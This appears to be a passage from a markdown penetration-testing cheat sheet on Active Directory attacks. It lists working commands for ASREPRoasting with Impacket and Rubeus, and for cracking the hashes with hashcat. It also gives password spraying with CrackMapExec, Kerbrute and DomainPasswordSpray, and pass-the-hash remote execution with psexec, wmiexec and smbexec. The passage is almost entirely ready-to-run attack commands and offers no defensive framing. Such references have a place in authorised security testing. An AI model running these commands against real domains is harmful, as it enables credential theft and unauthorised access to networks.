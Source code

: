 ### **2. ASREPRoasting**

#### **Linux:**
```bash
# Impacket
GetNPUsers.py -dc-ip DC_IP domain.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
GetNPUsers.py -dc-ip DC_IP domain.com/username:password -request

# Crack with hashcat
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

#### **Windows:**
```powershell
# Rubeus
.\Rubeus.exe asreproast /outfile:asrep_hashes.txt
.\Rubeus.exe asreproast /user:username /outfile:asrep_hashes.txt
```

### **3. Password Spraying**

#### **Linux:**
```bash
# CrackMapExec
crackmapexec smb DC_IP -u users.txt -p passwords.txt
crackmapexec smb DC_IP -u users.txt -p 'Password123!' --continue-on-success

# Kerbrute
kerbrute passwordspray -d domain.com users.txt 'Password123!'
```

#### **Windows:**
```powershell
# DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Password123!
Invoke-DomainPasswordSpray -UserList users.txt -Password Password123!
```

---

## 🎭 **Pass Attacks**

### **1. Pass-the-Hash**

#### **Linux:**
```bash
# CrackMapExec
crackmapexec smb TARGET_IP -u username -H NTLM_HASH
crackmapexec smb TARGET_IP -u username -H NTLM_HASH -x "whoami"

# Impacket
psexec.py -hashes :NTLM_HASH username@TARGET_IP
wmiexec.py -hashes :NTLM_HASH username@TARGET_IP
smbexec.py -hashes :NTLM_HASH username@TARGET_IP
```
